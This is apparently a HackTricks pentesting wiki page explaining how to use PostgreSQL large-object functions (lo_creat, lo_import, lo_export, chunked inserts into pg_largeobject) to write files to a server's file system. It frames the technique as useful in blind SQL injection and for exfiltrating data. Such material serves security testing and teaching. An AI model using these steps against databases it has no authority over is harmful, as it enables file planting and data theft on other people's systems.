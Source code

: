 

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Large Objects

PostgreSQL offers a structure known as **large objects**, accessible via the `pg_largeobject` table, designed for storing large data types, such as images or PDF documents. This approach is advantageous over the `COPY TO` function as it enables the **exportation of data back to the file system**, ensuring an exact replica of the original file is maintained.

For **storing a complete file** within this table, an object must be created in the `pg_largeobject` table (identified by a LOID), followed by the insertion of data chunks, each 2KB in size, into this object. It is crucial that these chunks are exactly 2KB in size (with the possible exception of the last chunk) to ensure the exporting function performs correctly.

To **divide your binary data** into 2KB chunks, the following commands can be executed:

```bash
split -b 2048 your_file # Creates 2KB sized files
```

For encoding each file into Base64 or Hex, the commands below can be used:

```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```

**Important**: When automating this process, ensure to send chunks of 2KB of clear-text bytes. Hex encoded files will require 4KB of data per chunk due to doubling in size, while Base64 encoded files follow the formula `ceil(n / 3) * 4`.

The contents of the large objects can be viewed for debugging purposes using:

```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Using `lo_creat` & Base64

To store binary data, a LOID is first created:

```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```

In situations requiring precise control, such as exploiting a Blind SQL Injection, `lo_create` is preferred for specifying a fixed LOID.

Data chunks can then be inserted as follows:

```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```

To export and potentially delete the large object after use:

```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```

#### Using `lo_import` & Hex

The `lo_import` function can be utilized to create and specify a LOID for a large object:

```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```

Following object creation, data is inserted per page, ensuring each chunk does not exceed 2KB:

```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```

To complete the process, the data is exported and the large object is deleted:

```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```

### Limitations

It's noted that **large objects may have ACLs** (Access Control Lists), potentially restricting access even to objects created by your user. However, older objects with permissive ACLs may still be accessible for content exfiltration.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


